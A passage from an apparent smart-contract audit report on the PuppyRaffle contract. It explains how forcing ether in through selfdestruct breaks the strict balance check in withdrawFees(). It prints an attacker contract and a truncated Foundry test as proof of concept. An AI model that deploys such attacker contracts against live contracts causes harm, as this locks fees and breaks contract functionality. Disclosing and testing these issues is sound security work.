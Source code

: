 ```solidity
        uint256 gasCostSecond = gasStartSecond - gasEndSecond; // Calculate the gas cost of the second transaction
        console.log(gasCostSecond); // Log the gas cost of the second transaction

        assert(gasCostSecond > gasCostFirst); // Assert that the gas cost for the second transaction is higher
    }
```

**Recommended Mitigation:** 


### [M-2] The `PuppyRaffle::withdrawFees()` function is sucseptible to self-destruct attacks, which would lead to fees being stuck in the contact.

**Description:** The `PuppyRaffle::withdrawFees()` function does the require check as the first step:

```solidity
    function withdrawFees() external {
@-->    require(address(this).balance == uint256(totalFees), "PuppyRaffle: There are currently players active!"); 
```

The issue hides in the following: contracts can receive funds by 3 means: 
1. through `receive()`function - not an issue, as there is no `receive()` function
2. through `fallback()`function - not an issue, as there is no `fallback()` function
3. when another contract self-destructs - issue.

**Impact:** If the require statement fails, the `PuppyRaffle::withdrawFees()` function could never be called, leading to breaking the functionality of the contract and losing all the future fees.

**Proof of Concept:** Anyone could forcefully push funds to the contract through self-destruct by creating a contract and calling the destroy method on it. The following test shows the way of accomplishing this.

1. Create an attacker contract:
```solidity
    contract selfDestruct {
        
        PuppyRaffle puppyRaffle;
        constructor(PuppyRaffle _puppyRaffle) {
            puppyRaffle = _puppyRaffle;
        }

        function destroy() public {
            selfdestruct(payable(address(puppyRaffle)));
        }
    }
```

2. Create a test:
```solidity
    modifier playersEntered() {
        address[] memory players = new address[](4);
        players[0] = playerOne;
        players[1] = playerTwo;
        players[2] = playerThree;
        players[3] = playerFour;
        puppyRaffle.enterRaffle{value: entranceFee * 4}(players);
        _;
    }

    function testCanBreakWithdrawFees() public playersEntered {
// DONE - 1. enterRaffle with entranceFee with the help of modifier playersEntered

// DONE - 2. console.log(address(this).balance) before pushing through self-destruct
```